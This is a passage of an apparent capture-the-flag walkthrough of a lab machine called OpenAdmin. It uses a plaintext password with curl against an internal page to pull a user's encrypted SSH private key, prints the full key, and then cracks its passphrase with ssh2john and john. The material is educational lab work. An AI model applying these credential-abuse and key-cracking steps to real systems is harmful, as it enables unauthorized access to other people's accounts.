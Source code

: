 Interesting - looks like if we authenticate to `index.php` with `jimmy`'s credentials, we get redirected to `main.php` which gives us `joanna`'s private SSH key!

From here, there are 2 ways to get `joanna` shell:

#### 1. Authenticate as `jimmy` locally and grab `joanna`'s SSH key.
```
jimmy@openadmin:/var/www/internal$ curl -u jimmy:n1nj4W4rri0R! 127.0.0.1:52846/main.php
```
```
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

If you tried to SSH to `joanna` with just the key, you'd be asked to provide a passphrase. To get the passphrase, you can crack `joanna`'s key with _john_.

First step: convert the key to john-crackable format: `python /usr/share/john/ssh2john.py joanna.key > joanna.key.hashes`  
Second step: _john_ the hash: `sudo john --format=SSH joanna.key.hashes`
